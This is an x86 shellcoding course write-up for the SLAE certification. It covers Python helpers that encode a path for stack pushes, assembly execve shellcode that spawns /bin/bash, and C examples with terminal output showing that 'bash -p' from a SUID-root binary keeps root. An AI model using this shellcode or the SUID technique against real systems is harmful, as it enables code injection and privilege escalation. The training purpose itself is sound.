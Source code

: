 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Exo 0 - Execve shellcode - Part 1 - Simple execve

Following the megaprimer, this is a very simple execve program calling */bin/bash*. This small Python 3 program is used in order to have a */bin/bash* string that can be easily pushed on the stack:

```Python
#!python3

import sys

if len(sys.argv) != 2:
   print("Usage: " + sys.argv[0] + " PATH")
   sys.exit(1)

path = sys.argv[1]
result = []


if (len(path) % 4) != 0:
   for i in range(0, 4 - len(path) % 4):
      path = "/" + path

for i in range(0, int(len(path) / 4)):
   tmp = ""
   for letter in path[i*4:(i+1)*4][4::-1]:
      tmp += str(hex(ord(letter))).replace('0x', '')
   result.append(tmp)

for doubleword in result[len(result)::-1]:
   print('0x' + doubleword)
```

```
$ python3 ../reverse-string-x32.py /bin/bash
0x68736162
0x2f6e6962
0x2f2f2f2f
```

The final shellcode is:

```ASM
global _start

section .text

_start:
    xor eax, eax
    
    push eax
    push 0x68736162 ; hsab
    push 0x2f6e6962 ; /nib
    push 0x2f2f2f2f ; ////
    mov ebx, esp

    mov edx, eax
    mov ecx, eax
    
    mov al, 0xb
    int 0x80
```

# Exo 0 - Execve shellcode - Part 1 - Execve generator

A very simple Python 3 program can be done for generating a execve shellcode with a specific program:

```Python
#!python3

import sys

if len(sys.argv) != 2:
   print("Usage: " + sys.argv[0] + " PATH")
   sys.exit(1)

path = sys.argv[1]

shellcode = "global _start \n \
\n \
section .text \n \
\n \
_start:  \n \
    xor eax, eax  \n \
\n \
    push eax  \n \
    *PATH*   \n \
    mov ebx, esp  \n \
\n \
    mov edx, eax  \n \
    mov ecx, eax  \n \
\n \
    mov al, 0xb  \n \
    int 0x80  \n \
"

pushed_value = ""
result = []
if (len(path) % 4) != 0:
   for i in range(0, 4 - len(path) % 4):
      path = "/" + path

for i in range(0, int(len(path) / 4)):
   tmp = ""
   for letter in path[i*4:(i+1)*4][4::-1]:
      tmp += str(hex(ord(letter))).replace('0x', '')
   result.append(tmp)

for doubleword in result[len(result)::-1]:
   pushed_value += ('	push 0x' + doubleword + "\n")

shellcode = shellcode.replace("*PATH*", pushed_value)

print(shellcode)
```

# Exo 0 - Execve shellcode - Part 1 - Execve with arguments

## C program

It may userfull to pass argument to a program. For example /bin/bash, does not run as root if the program is SUID root. It is possible to run /bin/sh which is in most case /bin/dash. But on some distribution /bin/sh is just a link to /bin/bash.

Let's check this with a very small C program:

```C
int main()
{
	execve("/bin/bash", 0, 0);
}
```

```
cervoise@slae:~/exam/exo0$ gcc execve-noarg.c -o execve-noarg
cervoise@slae:~/exam/exo0$ sudo chown root:root execve-noarg && sudo chmod u+s execve-noarg 
cervoise@slae:~/exam/exo0$ ls -l execve-noarg
-rwsrwxr-x 1 root root 7168 févr. 25 14:18 execve-noarg
cervoise@slae:~/exam/exo0$ ./execve-noarg 
bash-4.2$ whoami
cervoise
bash-4.2$ id  
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```
In order to get the root privilege, *bash -p* must be called. Let's check with another C program:


```C
main()
{
  char *foo[] = { "/bin/bash", "-p", 0 };
  execve("/bin/bash", foo, 0);
}
```

```
cervoise@slae:~/exam/exo0$ gcc execve-arg.c -o execve-arg
cervoise@slae:~/exam/exo0$ sudo chown root:root execve-arg && sudo chmod u+s execve-arg
cervoise@slae:~/exam/exo0$ ls -l execve-arg
-rwsrwxr-x 1 root root 7166 févr. 25 14:19 execve-arg
cervoise@slae:~/exam/exo0$ ./execve-arg 
bash-4.2# whoami
root
bash-4.2# id
uid=1000(cervoise) gid=1000(cervoise) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(cervoise)
```

## Assembly program

The only difference here is to create a structure that contains:
 * /bin/bash\0
 * -p\0
 * 0

The shellcode is:

```ASM
global _start

section .text

_start:
    
    ; Set EAX and EDX to 0
    xor eax, eax
    cdq 

    ; Push 0
    push eax

    ; Push "////bin/bash"
    push 0x68736162
    push 0x2f6e6962
    push 0x2f2f2f2f
    mov ebx, esp ; "////bin/bash\0" ->  EBX

    ; Push -p\0 and save it into edi
    push eax
    mov dx, 0x702d ;-p
    push dx
    cdq ; restore edx to 0       
    mov edi, esp ; "-p\0" -> EDI
 
    ;push 0, -p\0, ////bin/bash\0 and load it into ECX
    ;   char *foo[] = { "/bin/bash", "-p", 0 };
    ;   execve("/bin/bash", foo, 0);
    push eax
    push edi
    push ebx
    mov ecx, esp

    mov al, 0xb
    int 0x80
```
